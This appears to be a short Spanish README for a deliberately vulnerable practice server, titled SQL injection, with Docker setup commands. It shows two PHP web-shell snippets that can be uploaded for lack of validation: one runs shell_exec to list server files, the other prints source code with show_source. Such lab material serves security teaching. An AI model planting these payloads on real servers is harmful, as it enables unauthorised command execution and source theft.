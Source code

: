 # SQL Injection

Descargar y Montar el servidor desde Docker usando un volumen con el Codigo Fuente de Github para editarlo:

```bash
git clone https://github.com/IngenieroRicardo/SQLInjection
docker pull ghcr.io/ingenieroricardo/sqlinjection:latest
docker run --publish 8080:80 -v ./SQLInjection:/app ghcr.io/ingenieroricardo/sqlinjection:latest
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como estos:

```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Con este codigo podemos conocer los archivos en el servidor


```php
<?php
  show_source("../archivos.php");
?>
```
Con este codigo podemos ver codigo fuente
